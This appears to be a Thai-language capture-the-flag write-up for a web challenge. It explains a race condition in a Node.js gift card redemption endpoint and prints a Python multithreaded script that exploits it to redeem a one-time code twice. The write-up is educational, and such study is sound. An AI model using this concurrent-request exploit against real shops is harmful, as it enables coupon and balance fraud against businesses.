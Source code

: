 > เจ้าของร้าน Mystery Box เจอแฮกเกอร์ใช้คูปอง Gift Card ที่ควรใช้ครั้งเดียวต่อบัญชี หลังจากการสมัครครั้งแรกได้หลายรอบ ทำให้กล่องสุ่มดิจิตัล Mystery Box ถูกขโมยไปหลายกล่อง ในฐานะ Penetration Tester จงหาวิธีที่แฮกเกอร์ใช้ในการขโมยสินค้าและลองทำดู
> 
> 
> URL เว็บโจทย์ (มี Flag): [https://wtctt24.open.web2.p7z.pw](https://wtctt24.open.web2.p7z.pw/)
> 
> โค้ดเว็บ (ไม่มี Flag): https://static.wtctt24.p7z.pw/open_web2.zip
> 
> หมายเหตุ:
> 
> - สมัครเสร็จ กด Reset Balance ก่อนหนึ่งรอบ
> - คูปองสำหรับ Redeem Gift Card คือ WTCTT2024GIFT มูลค่า $1000
> - สามารถพบ Flag ได้ข้างใน Mystery Box
> - สามารถกดปุ่ม Reset Balance เพื่อรีเซท Balance และ Gift Card เมื่อกดปุ่ม Reset ให้ทำการรีเฟรชหน้าจอเพื่ออัปเดตข้อมูล
> - Flag จะอยู่ในรูปแบบ flag{open_webX_XXX} เช่น flag{open_web1_e758148af358200bf364c8d9282b7f04}
> - ช่องโหว่ไม่จำเป็นต้องทำ Port Scan ด้วย Nmap
> - ช่องโหว่ไม่จำเป็นต้องทำ URL Fuzzing เพื่อหา Directory หรือ File ที่เป็นชื่อลับ
> - โจทย์ไม่ได้ถูกออกแบบมาให้แก้ไข โดยใช้โปรแกรมสแกนช่องโหว่อัตโนมัติ

เปิดหน้าเว็บมา จะเจอหน้า login ให้ทำการสมัคร user ให้เรียบร้อยก่อน

![image](https://github.com/user-attachments/assets/caeac996-d6d1-4574-8266-4f1ec050970a)

![image](https://github.com/user-attachments/assets/f672d18c-1a0b-4a8a-a90c-8984a08f2adc)

register เสร็จแล้ว ให้ทำการ login จะเจอ popup ให้ redeem gift card code ให้ปิดไปก่อนแล้วกด reset balance ที่มุมขวาบน

![image](https://github.com/user-attachments/assets/e5d10bc9-86cd-46e4-b2f3-319defa727c9)

![image](https://github.com/user-attachments/assets/03f00555-bdd2-4d03-b3e3-c6bc300cbb58)

จากตรงนี้ โดนงูฉกตายหนึ่ง เพราะเกือบหาที่ redeem ใหม่ไม่เจอ เพราะมันอยู่ตรงแถบซ้ายมือข้างๆ Mystery Box ให้กดตรงนั้นแล้วเอาโค้ด WTCTT2024GIFT ที่โจทย์ให้มาใส่ไปได้เลย เสร็จแล้วรีเฟรช เราจะได้ตังมา 1000 บาท

![image](https://github.com/user-attachments/assets/5c96bcf1-750a-4217-9855-8a753b6ab6d8)

![image](https://github.com/user-attachments/assets/679532c5-a87d-4525-bb73-9f6f585717b4)

![image](https://github.com/user-attachments/assets/b1720511-5145-485b-a1e7-cec631d5e931)

นอกจากนี้ยังมี source code มาให้เราอ่านด้วย ทีนี้เรามาลองอ่านโค้ดดูว่าทำอะไรได้บ้าง

```javascript
app.post('/redeem', (req, res) => {
    if (!req.session.user) {
        return res.status(401).json({ success: false, message: 'User not logged in' });
    }

    const { code } = req.body;

    if (!code) {
        return res.status(400).json({ success: false, message: 'Gift card code is required.' });
    }


    const checkSql = 'SELECT * FROM giftcardcode WHERE code = ?';
    connection.query(checkSql, [code], (err, results) => {
        if (err) {
            console.error('Error querying the database:', err.stack);
            return res.status(500).json({ success: false, message: 'Database error.' });
        }

        if (results.length === 0) {
            return res.status(404).json({ success: false, message: 'Gift card code not found.' });
        }

        const giftCard = results[0];

        if (giftCard.used === 1) {
            return res.status(400).json({ success: false, message: 'This gift card has already been redeemed.' });
        }


        const redeemSql = 'UPDATE giftcardcode SET used = 1 WHERE code = ?';
        connection.query(redeemSql, [code], (err, updateResult) => {
            if (err) {
                console.error('Error updating gift card status:', err.stack);
                return res.status(500).json({ success: false, message: 'Error updating gift card status.' });
            }

            const updateBalanceSql = 'UPDATE users SET balance = balance + 1000 WHERE username = ?';
            connection.query(updateBalanceSql, [req.session.user.username], (err, balanceResult) => {
                if (err) {
                    console.error('Error updating user balance:', err.stack);
                    return res.status(500).json({ success: false, message: 'Error updating user balance.' });
                }

                return res.status(200).json({ success: true, message: 'Gift card redeemed successfully! Balance updated.' });
            });
        });
    });
});
```

คร่าวๆ ก็คือตัวเว็บมีการตรวจสอบการใช้โค้ดว่าใช้ไปแล้วหรือไม่ ซึ่งถ้าเรามาดูโค้ด 2 ส่วนนี้ คือจังหวะที่เช็คโค้ดกับอัพเดทโค้ดจะมี gap เวลาห่างกันระหว่างขั้นตอน

```javascript
// time to check used code
const checkSql = 'SELECT * FROM giftcardcode WHERE code = ?';
    connection.query(checkSql, [code], (err, results) => {

...[SNIP]...

// time to use code
           const updateBalanceSql = 'UPDATE users SET balance = balance + 1000 WHERE username = ?';
            connection.query(updateBalanceSql, [req.session.user.username], (err, balanceResult) => {
```

ซึ่งหากพิจารณาแล้ว มันก็มากพอที่ attacker จะใช้จังหวะนี้ในการโจมตีเพื่อเบิ้ล redeem code ซ้ำก่อนที่จะไป update ว่าโค้ดถูกใช้แล้ว ใช่ฮะ เรากำลังพูดถึงการทำ Race Condition ซึ่งมีผลทำให้คูปองที่ควรจะถูกใช้ครั้งเดียว สามารถนำไปใช้ได้หลายครั้ง
แต่ครั้นลองกดมือใน repeater แล้ว แถมพอใช้ Burp Comm ก็ช้าจนไม่ทันกิน (แต่ตอนแข่งเสือกฟลุ๊ค กดทันเฉย งงมาก) ก็เลยเขียนโค้ดให้ยิง race condition ออกมา

```python
import requests
import threading

# Define the target URL and headers
url = "http://wtctt24.open.web2.p7z.pw/redeem"
headers = {
    "Host": "wtctt24.open.web2.p7z.pw",
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Referer": "http://wtctt24.open.web2.p7z.pw/main.html",
    "Content-Type": "application/json",
    "Origin": "http://wtctt24.open.web2.p7z.pw",
    "Connection": "keep-alive",
    "Cookie": "cf_clearance=LKH6IaUbLFTApls.aoGWXIHLHs3BbGQvmDUUm6XWSsY-1736704248-1.2.1.1-5BlLWedtCnQ8GXXltnmGQAeseE_gIG6qMgM7nRF_hX_3IG6KJcKaa98N_BbuzjV78r5awtQxKfiYILVRa9caqlu_bVBaWk_2r3KIQC7KGM5kvCIb2ProMZK2WLJ5SWnyLYm7XyD5hzxyaFDKY0PneRMpNzUW4k7Upa.BQ3t0UqXa_IygzXSc9nq2AaDO0ZaxfH.CLwKxAZEV_giwiaxvZlFIHQsiML8x4ky_mR8XlqCoOj7srM6dmsLl8xtmJvbZI.ck2_Qcv3Nyysy3J4rzUSjkd3xiIUlTGc9p45j_f9c; connect.sid=s%3Azthg7VXcLwmBW4OGSXYFzwBMoXH67kEX.Ic9rUrPueoVt2a8h2%2FnTwQzFB6Glt1YoJGjekKyfmk0",
    "Priority": "u=0"
}

# Define the payload
payload = {"code": "WTCTT2024GIFT"}

# Shared success counter
success_count = 0
lock = threading.Lock()

# Function to send a single request
def redeem_code():
    global success_count
    try:
        response = requests.post(url, headers=headers, json=payload)
        if response.status_code == 200 and "success" in response.text.lower():
            with lock:
                success_count += 1
        print(f"Response: {response.status_code}, {response.text}")
    except Exception as e:
        print(f"Error: {e}")

# Number of concurrent threads
threads = []
thread_count = 10

# Start multiple threads to exploit the race condition
for _ in range(thread_count):
    thread = threading.Thread(target=redeem_code)
    threads.append(thread)
    thread.start()

# Wait for all threads to complete
for thread in threads:
    thread.join()

# Print result
print(f"Exploitation complete: {success_count} out of {thread_count} attempts succeeded.")
```

ได้โค้ดแล้วก็กดยิงสคริป ก็ได้ปึ้ง เราสามารถ redeem code ได้ 2 ครั้ง กลับไปหน้าเว็บ กด refresh เราก็จะได้ 2000 บาทมาเปิดกล่องสุ่มเอา flag แล้ว

![image](https://github.com/user-attachments/assets/d7e08279-542c-4dc7-813a-b909ea2d5384)

![image](https://github.com/user-attachments/assets/93074516-c8f3-4a1d-ab2d-ff8277688f97)

![image](https://github.com/user-attachments/assets/f37d5d81-3dd1-4702-9906-ca93fb819dc8)
